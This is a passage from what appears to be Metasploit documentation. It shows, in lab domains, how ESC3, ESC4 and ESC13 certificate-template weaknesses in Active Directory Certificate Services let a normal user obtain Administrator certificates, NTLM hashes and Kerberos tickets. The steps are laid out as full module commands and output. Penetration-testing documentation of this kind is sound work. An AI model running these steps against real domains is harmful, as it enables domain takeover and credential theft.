ESC3_TEMPLATE_2 are more plentiful though and we can find a few that are of interest:
- SubCA - Again as mentioned earlier can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.
- ESC3-Template2 - Enrollable via any authenticated domain user.
- User - Enrollable via any authenticated domain user.
- Administrator -  Can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.
- Machine - No real overlap between Domain Computers and Authenticated Users I don't think?
- DomainController - Can only be enrolled in by Domain Admins and Enterprise Admins, so not a viable vector.

Narrowing this list down to those we can actually enroll in as users, this leaves us with  `User` and `ESC3-Template2` as templates that can be used for the second part of this vulnerability.

We'll first get the cert using `ipcr_cert` with the `ESC3-Template1` certificate.

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   ALT_DNS                         no        Alternative certificate DNS
   ALT_UPN                         no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                              yes       The target certificate authority
   CERT_TEMPLATE  User             yes       The certificate template
   ON_BEHALF_OF                    no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                             no        Certificate to request on behalf of
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framew
                                             ork/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        The Windows domain to use for authentication
   SMBPass                         no        The password for the specified username
   SMBUser                         no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216180342_default_unknown_windows.ad.cs_390825.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC4 To Gain Domain Administrator Privileges
To exploit ESC4, we will require an account with write privileges over a certificate template object in Active
Directory. This involves finding an object with weak permissions defined within the `nTSecurityDescriptor` field. With
this object identified, we can modify it to reconfigure the template to be vulnerable to another ESC technique.

First, we will use the `icpr_cert` module in an attempt to exploit ESC1 (by setting `ALT_UPN`). This fails because
the `ESC4-Test` certificate template does not allow the certificate's subject name to be supplied in the request (the
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag is not set in the `msPKI-Certificate-Name-Flag` field).

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run 
[*] Running module against 172.30.239.85

[-] 172.30.239.85:445 - There was an error while requesting the certificate.
[-] 172.30.239.85:445 - Denied by Policy Module
[-] 172.30.239.85:445 - Error details:
[-] 172.30.239.85:445 -   Source:  (0x0009) FACILITY_SECURITY: The source of the error code is the Security API layer.
[-] 172.30.239.85:445 -   HRESULT: (0x80094812) CERTSRV_E_SUBJECT_EMAIL_REQUIRED: The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

Next, we use the `ad_cs_cert_template` module to update the `ESC4-Test` certificate template. This process first makes a
backup of the certificate data that can be used later. Next, the local certificate template data is read and used to
update the object in Active Directory. The local certificate template data can be modified to set a custom security
descriptor.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/ldap/ad_cs_cert_template 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set USERNAME normaluser
USERNAME => normaluser
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set PASSWORD normalpass
PASSWORD => normalpass
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set ACTION UPDATE 
ACTION => UPDATE
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set VERBOSE true 
VERBOSE => true
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
[*] Parsing SDDL text: D:PAI(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;AU)
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > 
```

Now that the certificate template has been updated to be vulnerable to ESC1, then we can use the `previous` shortcut
to switch back to the last module and reattempt to issue the certificate. This time, the operation succeeds.

```msf
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > previous 
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

Finally, we switch back to the `ad_cs_cert_template` module to restore the original configuration. We do this by
setting the local template data option `TEMPLATE_FILE` to the JSON file that was created by the previous run.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > previous 
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > set TEMPLATE_FILE /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
TEMPLATE_FILE => /home/smcintyre/.msf4/loot/20230505083802_default_172.30.239.85_windows.ad.cs.te_593597.json
msf6 auxiliary(admin/ldap/ad_cs_cert_template) > run
[*] Running module against 172.30.239.85

[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 172.30.239.85:389 Getting root DSE
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Read certificate template data for: CN=ESC4-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*] Certificate template data written to: /home/smcintyre/.msf4/loot/20230505083942_default_172.30.239.85_windows.ad.cs.te_000095.json
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/ldap/ad_cs_cert_template) >
```

At this point the certificate template's configuration has been restored and the operator has a certificate that can be
used to authenticate to Active Directory as the Domain Admin.

# Exploiting ESC13
To exploit ESC13, we need to target a certificate that has an issuance policy linked to a universal group in Active
Directory. Unlike some of the other ESC techniques, successfully exploiting ESC13 isn't necessarily guaranteed to yield
administrative privileges, rather the privileges that are gained are those of the group which is linked to by OID in the
certificate template's issuance policy. The `auxiliary/gather/ldap_esc_vulnerable_cert_finder` module is capable of
identifying certificates that meet the necessary criteria. When one is found, the module will include the group whose
permissions will be included in the resulting Kerberos ticket in the notes section. In the following example, the
ESC13-Test template is vulenerable to ESC13 and will yield a ticket including the ESC13-Group permissions.

```
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > run
...
[+] Template: ESC13-Test
[*]   Distinguished Name: CN=ESC13-Test,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=collalabs1,DC=local
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC13
[*]   Notes: ESC13 groups: ESC13-Group
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
[*]     * S-1-5-21-3474343397-3755413101-2031708755-513 (Domain Users)
[*]     * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[+]   Issuing CA: collalabs1-SRV-ADDS01-CA (SRV-ADDS01.collalabs1.local)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[*]       * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
```

In this case, the ticket can be issued with the `icpr_cert` module. No additional options are required to issue the
certificate beyond the standard `CA`, `CERT_TEMPLATE`, target and authentication options.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC13-Test
CERT_TEMPLATE => ESC13-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate Email: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3474343397-3755413101-2031708755-10051
[*] 172.30.239.85:445 - Certificate UPN: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20240226170310_default_172.30.239.85_windows.ad.cs_917878.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) with the `ESC13-Group`
RID present in the Groups field of the TGT PAC.

# Authenticating With A Certificate
Metasploit supports authenticating with certificates in a couple of different ways. These techniques can be used to take
further actions once a certificate has been issued for a particular identity (such as a Domain Admin user).

## Authenticating To Kerberos
Certificates can be used to authenticate to Kerberos using the [[kerberos/get_ticket|kerberos/get_ticket.md]] module by
specifying the `CERT_FILE` option. Take the certificate file from the last stage of the attack and set it as the
`CERT_FILE`. Certificates from Metasploit do not require a password, but if the certificate was generated from a source
that added one, it can be specified in the `CERT_PASSWORD` option. Set the `RHOST` to the Domain Controller which is the
Key Distribution Center (KDC) for the Active Directory environment.

### Getting An NT Hash
Certificates can be used to obtain the NTLM hash of an account with the PKINIT extension. To request the hash, set the
action to `GET_HASH`.

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_hash rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Running module against 172.30.239.85

[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_324339.bin
[*] 172.30.239.85:88 - Getting NTLM hash for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGS-Response
[*] 172.30.239.85:88 - TGS MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_031414.bin
[+] Found NTLM hash for Administrator: aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) >
```

### Getting A Kerberos Ticket
Certificates can be used to issue a Kerberos ticket granting ticket (TGT) which in turn can be used to authenticate to
services such as HTTP, LDAP and SMB. Ticket granting tickets can be requested using the `GET_TGT` action.

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_tgt rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230124173224_default_172.30.239.85_windows.ad.cs_287833.pfx
[*] Running module against 172.30.239.85

[*] 172.30.239.85:88 - Getting TGT for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > klist
Kerberos Cache
==============
host           principal                   sname                             issued                     status  path
----           ---------                   -----                             ------                     ------  ----
172.30.239.85  Administrator@daforest.com  krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-01-24 20:23:54 -0500  valid   /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin

msf6 auxiliary(admin/kerberos/get_ticket) >
```

Once the TGT has been issued, it can be seen in the output of the `klist` command. With the TGT saved, it will
automatically be used in the future to request ticket granting services (TGS) for authentication to specific services.

## Authenticating To LDAP
Certificates can also be used to directly authenticate to LDAP using schannel. Metasploit modules that use the builtin
LDAP library (including `auxiliary/gather/ldap_query`) offer this as an authentication option that can be enabled. To
use schannel authentication a few options must be set.

* `LDAP::Auth` -- must be set to `schannel`
* `LDAP::CertFile` -- must be set to the PFX certificate file with which to authenticate
* `SSL` -- must be set to `true` (`schannel` authentication is only compatible with TLS connections)

```msf
msf6 auxiliary(gather/ldap_query) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(gather/ldap_query) > set LDAP::Auth schannel
LDAP::Auth => schannel
msf6 auxiliary(gather/ldap_query) > set LDAP::CertFile /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
LDAP::CertFile => /home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
msf6 auxiliary(gather/ldap_query) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(gather/ldap_query) > enum_domain
[*] Running module against 172.30.239.85

[*] Discovering base DN automatically
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] 172.30.239.85:389 Discovered schema DN: DC=daforest,DC=com
DC=msflab DC=local
==================

 Name                       Attributes
 ----                       ----------
 lockoutduration            0:00:30:00
 lockoutthreshold           0
 maxpwdage                  42:00:00:00
 minpwdage                  1:00:00:00
 minpwdlength               7
 ms-ds-machineaccountquota  10
 name                       msflab
 objectsid                  S-1-5-21-3402587289-1488798532-3618296993

[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_query) >
```
